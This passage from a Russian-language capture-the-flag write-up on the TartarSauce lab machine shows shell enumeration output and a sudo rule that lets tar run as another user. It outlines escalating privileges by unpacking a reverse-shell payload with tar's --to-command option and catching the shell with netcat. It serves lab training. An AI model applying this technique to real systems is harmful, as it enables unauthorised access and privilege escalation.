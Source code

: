 ```text
/bin/sh: 0: can't access tty; job control turned off

$ whoami
www-data

$ uname -a
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 i686 i686 GNU/Linux
```

В красках все выглядело ни много ни мало следующим образом (красным — порядок активности панелей):

[![tartarsauce-www-data-shell.png]({{ "/img/htb/boxes/tartarsauce/tartarsauce-www-data-shell.png" | relative_url }})]({{ "/img/htb/boxes/tartarsauce/tartarsauce-www-data-shell.png" | relative_url }})

# PrivEsc: www-data → onuma
Оказавшись внутри машины, я дернул [LinEnum.sh](https://github.com/rebootuser/LinEnum "rebootuser/LinEnum: Scripted Local Linux Enumeration & Privilege Escalation Checks"), чтобы немного облегчить себе жизнь с процедурой энумерации машины. В числе прочего, вот, что он сказал:
```text
www-data@TartarSauce:/dev/shm$ bash LinEnum.sh
...
[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar


[+] Possible sudo pwnage!
/bin/tar
...
```

```text
www-data@TartarSauce:/dev/shm$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

`tar` (обращаем внимание на название виртуалки, ага) доступен для выполнения из-под юзера *onuma* без пароля, поэтому можно считать, что этот пользователь уже у нас в кармане. Есть не один путь повышения привилегий с помощью этой утилиты, [GTFOBins](https://gtfobins.github.io/gtfobins/tar "tar / GTFOBins") это подтвердит. Рассмотрим 3 способа, как это можно сделать.

## tar --to-command
Флаг `--to-command` позволяет отправить распакованный файл на выполнения указанному процессу, поэтому план таков:
  1. Создать bash-нагрузку с реверс-шеллом до своей машины.
  2. Запаковать ее в `.tar`.
  3. Распаковать ее tar'ом, и передать на исполнения bash-интерпретатору с помощью `--to-command /bin/bash`.
  4. Поймать шелл у себя на netcat.
